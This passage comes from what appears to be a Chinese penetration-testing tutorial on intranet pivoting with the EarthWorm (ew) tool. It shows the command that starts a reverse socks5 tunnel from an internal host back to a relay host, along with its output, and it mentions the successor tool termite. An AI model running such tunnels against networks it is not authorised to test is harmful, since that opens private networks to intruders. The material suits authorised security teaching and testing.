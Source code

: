 在内网主机 C 上，启动 socks5 服务，并反弹到 B 主机的 6666 端口上

```
ew -s rssocks -d 192.168.7.110 -e 6666
```

```
> .\ew_for_Win.exe -s rssocks -d 192.168.7.110 -e 6666
rssocks 192.168.7.110:6666 <--[10000 usec]--> socks server
```

至此，socks5 代理 VPS 的 1080 端口就会访问到内网资源了。

另外还有个 ew 的升级版工具叫 termite，不过比较遗憾的是 termite 在两年前也已经暂停更新了，这里也就不再大费周章的记录它了。

> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
